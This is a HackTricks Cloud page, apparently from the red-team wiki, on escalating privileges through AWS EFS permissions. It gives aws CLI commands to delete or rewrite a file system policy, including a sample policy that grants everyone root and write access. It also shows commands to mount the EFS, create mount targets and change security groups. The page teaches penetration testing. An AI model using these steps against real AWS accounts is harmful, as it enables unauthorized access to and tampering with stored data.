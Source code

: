 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

More **info about EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Remember that in order to mount an EFS you need to be in a subnetwork where the EFS is exposed and have access to it (security groups). Is this is happening, by default, you will always be able to mount it, however, if it's protected by IAM policies you need to have the extra permissions mentioned here to access it.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

With any of those permissions an attacker can **change the file system policy** to **give you access** to it, or to just **delete it** so the **default access** is granted.

To delete the policy:

```bash
aws efs delete-file-system-policy \
    --file-system-id <value>
```

To change it:

```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json: 
{
    "Version": "2012-10-17",
    "Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
    "Statement": [
        {
            "Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
	       "elasticfilesystem:ClientRootAccess",
               "elasticfilesystem:ClientWrite",
               "elasticfilesystem:ClientMount"
            ],
            "Condition": {
                "Bool": {
                    "elasticfilesystem:AccessedViaMountTarget": "true"
                }
            }
        }
    ]
}
```

### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

With this permission an attacker will be able to **mount the EFS**. If the write permission is not given by default to everyone that can mount the EFS, he will have only **read access**.

```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```

The extra permissions`elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:CreateMountTarget`

If you an attacker is inside a **subnetwork** where **no mount target** of the EFS exists. He could just **create one in his subnet** with this privilege:

```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
    --subnet-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In a scenario where an attacker finds that the EFS has mount target in his subnetwork but **no security group is allowing the traffic**, he could just **change that modifying the selected security groups**:

```bash
aws efs modify-mount-target-security-groups \
    --mount-target-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
